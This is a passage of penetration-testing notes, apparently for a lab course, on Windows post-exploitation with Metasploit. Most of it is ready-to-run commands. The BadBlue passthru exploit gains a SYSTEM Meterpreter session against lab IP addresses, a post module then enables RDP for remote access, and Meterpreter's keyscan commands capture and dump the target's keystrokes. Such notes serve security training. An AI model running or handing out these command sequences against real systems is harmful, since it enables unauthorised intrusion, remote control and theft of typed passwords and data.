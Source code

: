 ```bash
msf6> set lport 4445
msf6> run
meterpreter> getuid  # NT AUTHORITY\SYSTEM without exploit !
```

#### Enabling RDP

* RDP is disabled by default, however, we can utilize an MSF exploit module to enable RDP on the Windows target and consequently utilize RDP to remotely access to the target system.
* RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.

```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a rdp
msf6> setg rhosts 10.3.22.192
msf6> db_nmap -sV 10.3.22.192

msf6> use exploit/windows/http/badblue_passthru
msf6> set target BadBlue\ EE\ 2.7\ Universal
msf6> run

meterpreter> getuid  # NT AUTHORITY\SYSTEM
# CTRL+Z

msf6> use post/windows/manage/enable_rdp
msf6> set session 1
msf6> run  # Enable RDP

msf6> db_nmap 10.3.22.192 -p 3389  # RDP is now open
```

#### Windows keylogging

* Keylogging is the process of recording or capturing the keystrokes entered on a target system.
* This technique is not limited to post exploitation, there are plenty of programs and USB devices that can be used to capture and transmit the keystrokes entered on a system.
* Meterpreter on a Windows system provides us with the ability to capture the keystrokes entered on a target system and download them back to our local system.

```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a keylogging
msf6> setg rhosts 10.3.20.112
msf6> use exploit/windows/http/badblue_passthru
msf6> set target 1
msf6> run

meterpreter> keyscan_start  # start keylogging
meterpreter> keyscan_dump   # display characters
meterpreter> keyscan_stop   # stop keylogging
```
